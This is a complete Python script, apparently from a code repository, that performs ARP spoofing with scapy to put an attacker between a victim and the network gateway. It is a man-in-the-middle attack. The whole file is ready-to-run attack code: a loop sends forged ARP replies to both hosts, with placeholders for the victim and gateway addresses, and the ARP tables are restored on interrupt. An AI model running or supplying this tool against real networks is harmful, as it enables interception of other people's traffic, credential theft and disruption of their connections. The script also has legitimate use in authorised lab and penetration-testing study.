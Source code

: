 #!/usr/bin/env python3
# ---------------------------------------------
# Title: ARP Spoofer (Man-in-the-Middle)
# Author: [Your Name]
# Description: Performs ARP spoofing to position
# attacker between target and gateway (MITM attack)
# Tested on: Kali Linux
# ---------------------------------------------

import scapy.all as scapy
import time
import sys

# 🧠 CONFIGURATION - Set the target interface (e.g., eth0, wlan0, eth1)
interface = "eth1"

# 🔍 Function to get MAC address of a given IP
def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)  # Create ARP request
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")  # Broadcast MAC
    arp_request_broadcast = broadcast / arp_request  # Combine packets
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, iface=interface, verbose=False)[0]

    if answered_list:
        return answered_list[0][1].hwsrc  # Return MAC of response
    else:
        return None

# 🎯 Function to spoof ARP replies (pretend to be gateway to victim and vice versa)
def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    if target_mac:
        # Craft ARP reply: "I am the spoof_ip"
        arp_packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
        ether_packet = scapy.Ether(dst=target_mac)
        full_packet = ether_packet / arp_packet
        scapy.send(full_packet, iface=interface, verbose=False)  # Send spoofed ARP packet

# 🛠️ Function to restore ARP tables to original state
def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    if destination_mac and source_mac:
        # Send correct ARP reply to restore actual IP-MAC mapping
        packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac,
                           psrc=source_ip, hwsrc=source_mac)
        ether = scapy.Ether(dst=destination_mac)
        full_packet = ether / packet
        scapy.send(full_packet, count=4, iface=interface, verbose=False)

# 🧠 Set your victim and gateway IPs here
target_ip = "<TARGET_IP>"    # Replace <TARGET_IP> with the victim's IP address
gateway_ip = "<GATEWAY_IP>"  # Replace <GATEWAY_IP> with your router's IP address

# 🚀 Start spoofing loop
try:
    packet_sent_count = 0
    while True:
        spoof(target_ip, gateway_ip)  # Tell victim: "I am gateway"
        spoof(gateway_ip, target_ip)  # Tell router: "I am victim"
        packet_sent_count += 2
        print("\r[+] Sent " + str(packet_sent_count), end="")  # Real-time update
        sys.stdout.flush()
        time.sleep(2)  # Wait before sending again (avoid flooding too hard)

# 🛑 On Ctrl+C - Restore the network
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ... Resetting ARP tables. Please wait...\n")
    restore(target_ip, gateway_ip)
    restore(gateway_ip, target_ip)
